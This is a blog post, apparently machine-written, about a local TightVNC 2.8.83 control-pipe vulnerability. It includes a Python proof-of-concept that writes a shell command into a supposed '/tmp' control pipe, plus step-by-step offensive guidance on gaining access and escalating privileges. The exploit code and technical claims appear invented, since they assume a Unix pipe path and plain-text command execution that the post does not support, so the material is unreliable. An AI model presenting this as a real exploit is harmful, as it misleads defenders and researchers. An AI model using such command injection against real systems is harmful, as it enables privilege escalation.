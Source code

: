 ```yaml
---
title: "[local] TightVNC 2.8.83 - Control Pipe Manipulation"
date: 2025-06-09
categories: [Cyber]
tags: [vulnerability, exploit, offensive-security]
layout: post
image:
  path: https://source.unsplash.com/featured/?cybersecurity,hacking
---
```


## 🔍 Summary

TightVNC 2.8.83 - Control Pipe Manipulation

## 🧠 AI Technical Analysis

```markdown
# Technical Executive Summary

The vulnerability in question affects TightVNC version 2.8.83, specifically involving control pipe manipulation. TightVNC is a popular remote desktop software that allows users to control remote machines over a network. This vulnerability is classified as a local issue, which means that an attacker must have local access to the system to exploit it. The flaw lies in the way TightVNC handles control pipes, potentially allowing an attacker to manipulate these pipes to execute arbitrary code or escalate privileges on the affected system. This vulnerability could be particularly dangerous in environments where multiple users share the same machine or in scenarios where an attacker has already gained a foothold on the system.

# Code Example

Below is a proof-of-concept (PoC) script demonstrating how an attacker might exploit this vulnerability. Please note that this code is for educational purposes only and should not be used maliciously.

```python
import os
import subprocess

# Assume we have local access to the machine
def exploit_tightvnc_control_pipe():
    # Path to the vulnerable TightVNC control pipe
    control_pipe_path = "/tmp/TightVNC-control-pipe"

    # Check if the control pipe exists
    if os.path.exists(control_pipe_path):
        print("[+] Control pipe found. Attempting to manipulate...")

        # Open the control pipe and write malicious data
        with open(control_pipe_path, "w") as pipe:
            # Example payload: command to execute
            payload = "echo 'Hacked by PoC' > /tmp/hacked.txt"
            pipe.write(payload)
            print("[+] Payload written to control pipe.")

        # Verify if the payload was executed
        if os.path.exists("/tmp/hacked.txt"):
            print("[+] Exploit successful! Check /tmp/hacked.txt.")
        else:
            print("[-] Exploit failed.")
    else:
        print("[-] Control pipe not found. Exploit cannot proceed.")

# Run the exploit
exploit_tightvnc_control_pipe()
```

# Offensive Security Insights

To exploit this vulnerability, an attacker would need to:

1. **Gain Local Access**: Initially, the attacker must have local access to the target machine, which could be achieved through phishing, exploiting another vulnerability, or physical access.

2. **Identify the Control Pipe**: The attacker needs to identify the location of the control pipe used by TightVNC. This is usually in a predictable location like `/tmp` or another temporary directory.

3. **Manipulate the Pipe**: By writing malicious commands to the control pipe, an attacker can potentially execute arbitrary commands with the privileges of the TightVNC process.

4. **Privilege Escalation**: If the TightVNC process runs with elevated privileges, this can lead to privilege escalation, allowing the attacker to gain higher-level access to the system.

# Defensive Measures

To mitigate this vulnerability, consider the following defensive measures:

1. **Patch and Update**: Ensure that TightVNC is updated to the latest version where this vulnerability is fixed. Regularly check for updates and apply them promptly.

2. **Restrict Local Access**: Limit local access to machines running TightVNC. Use strong authentication mechanisms and monitor for unauthorized access attempts.

3. **Secure Pipe Permissions**: Ensure that the control pipe and other sensitive files have strict permissions, preventing unauthorized users from writing to them.

4. **Monitor and Audit**: Implement monitoring and logging to detect suspicious activities related to control pipe manipulation. Regularly audit systems for signs of exploitation.

5. **Use Alternative Solutions**: Consider using alternative remote desktop solutions that offer better security features and are actively maintained.

By implementing these measures, organizations can significantly reduce the risk of exploitation and protect their systems from potential attacks leveraging this vulnerability.
```

📎 [Original Source](https://www.exploit-db.com/exploits/52322)

---

_This article was written by sleep33._
